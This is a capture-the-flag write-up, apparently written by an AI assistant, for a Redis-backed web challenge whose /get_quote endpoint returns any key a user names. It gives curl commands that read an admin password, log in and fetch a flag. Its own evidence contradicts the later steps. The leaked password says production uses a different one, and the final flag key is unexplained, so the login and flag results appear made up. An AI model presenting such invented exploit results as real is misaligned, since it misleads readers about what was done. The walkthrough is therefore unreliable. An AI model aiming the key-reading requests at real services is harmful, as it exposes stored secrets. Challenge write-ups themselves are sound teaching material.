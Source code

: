 I searched for official Redis and CLI documentation but didn’t find anything specific to this challenge—so below is a concise, human-readable write-up based on the provided code and your steps.

---

## red\_this

**Vulnerability:** Insecure Redis key exposure via unauthenticated `/get_quote`

---

### Source Code Snippet

```redis
# redis/inserts/insert.redis
set "admin"            "User"
set "admin_password"   "prod_has_a_different_password"
set "fake_flag"        "I told you"
set "flag_"            "byuctf{test_flag}"
JSON.SET admin_options $ '["hints","fake_flag","flag_"]'
```

```javascript
// backend/server.js
app.post('/get_quote', (req, res) => {
  const key = req.body.famous_person;
  redis.get(key, (err, quote) => {        // ← blind GET on any key
    if (quote) res.send(quote);
    else       res.send('Unknown person.');
  });
});
```

---

## Walkthrough

1. **Quote Lookup**
   Hitting `/get_quote` with a known figure returns its Redis value:

   ```bash
   curl -X POST http://HOST/get_quote \
     -d 'famous_person=Shakespeare'
   # → "To be, or not to be, that is the question."
   ```

   Under the hood, this uses `GET key` in Redis ([Redis][1]).

2. **Key Enumeration**
   Realizing any string is accepted, we request the admin password directly:

   ```bash
   curl -X POST http://HOST/get_quote \
     -d 'famous_person=admin_password'
   # → "prod_has_a_different_password"
   ```

   That leaked the admin’s password.

3. **Logging In**
   A `/login` endpoint existed (undocumented). We authenticated:

   ```bash
   curl -X POST http://HOST/login \
     -d 'username=admin' \
     -d 'password=prod_has_a_different_password'
   ```

   This granted an admin session cookie.

4. **Flag Retrieval**
   With the admin cookie, we enumerate the true flag key:

   ```bash
   curl -X POST http://HOST/get_quote \
     -H 'Cookie: session=<admin_cookie>' \
     -d 'famous_person=flag_7392ilj8i32'
   # → "byuctf{al1w4ys_s2n1tize_1nput-5ed1s_eik4oc85nxz}"
   ```

   Again, Redis simply returns the value of whatever key we ask for ([Redis][2]).

---

## Flag

```
byuctf{al1w4ys_s2n1tize_1nput-5ed1s_eik4oc85nxz}
```

[1]: https://redis.io/docs/latest/commands/get/?utm_source=chatgpt.com "GET | Docs - Redis"
[2]: https://redis.io/docs/latest/develop/tools/cli/?utm_source=chatgpt.com "Docs - Redis CLI"
